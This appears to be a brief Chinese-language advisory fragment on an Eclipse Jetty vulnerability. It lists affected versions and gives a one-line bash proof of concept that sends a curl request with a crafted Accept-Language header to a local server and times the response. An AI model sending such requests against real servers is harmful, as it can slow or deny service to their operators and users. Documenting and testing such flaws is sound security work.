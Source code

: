 影響版本
--------

    Eclipse Jetty 9.4.6.v20170531 至9.4.36.v20210114版本
    Eclipse Jetty 10.0.0版本
    Eclipse Jetty 11.0.0版本

POC1
----

    #!/bin/bash

    time curl -m 120 "http://127.0.0.1:8080/" -H 'Accept-Language: aaa;q=0.341, aab;q=0.484, aac;q=0.093'
